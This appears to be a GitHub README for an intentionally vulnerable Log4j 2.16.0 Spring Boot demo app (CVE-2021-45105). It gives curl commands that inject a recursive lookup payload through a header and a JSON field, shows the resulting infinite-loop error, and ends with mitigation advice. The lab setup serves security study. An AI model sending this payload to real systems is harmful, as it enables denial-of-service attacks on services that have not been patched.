 # Sample Log4j2 vulnerable application (CVE-2021-45105) 
# Versions Affected: all versions from 2.0-beta9 to 2.16.0

This application is based on Spring Boot web application vulnerable to CVE-2021-45105

It uses Log4j 2.16.0

![](./screenshot.png)

## Running the application

Run it:

```
Import the project in Java IDE as a maven project

Run CVEMainApplication.java as a spring boot app.

```

## Exploitation steps

* Then, trigger the exploit using:

```bash
For GET ->
curl 127.0.0.1:8080 -H 'X-Api-Version: ${${::-${::-$${::-$}}}}'


For Post request ->
curl --location --request POST 'http://127.0.0.1:8080/addrecord' \
--header 'Content-Type: application/json' \
--data '{
	"clientRef": "${${::-${::-$${::-$}}}}"
}'
```


* Notice the output showing Infinite loop, however in testing did not find out that this DOS to be resource consuming as this infinite loop identified by program and error out:

```

 ${ctx:apiVersion} ${ctx:clientRef}2021-12-18 14:29:56,759 http-nio-8080-exec-1 ERROR An exception occurred processing Appender Console java.lang.IllegalStateException: Infinite loop in property interpolation of ::-${::-$${::-j}}: :
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.checkCyclicSubstitution(StrSubstitutor.java:1081)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1029)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1042)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:912)
	
```

## Mitigation : 

Java 8 (or later) users should upgrade to release 2.17.0.

Alternatively, this can be mitigated in configuration:

In PatternLayout in the logging configuration, replace Context Lookups like ${ctx:loginId} or $${ctx:loginId} with Thread Context Map patterns (%X, %mdc, or %MDC).
Otherwise, in the configuration, remove references to Context Lookups like ${ctx:loginId} or $${ctx:loginId} where they originate from sources external to the application such as HTTP headers or user input.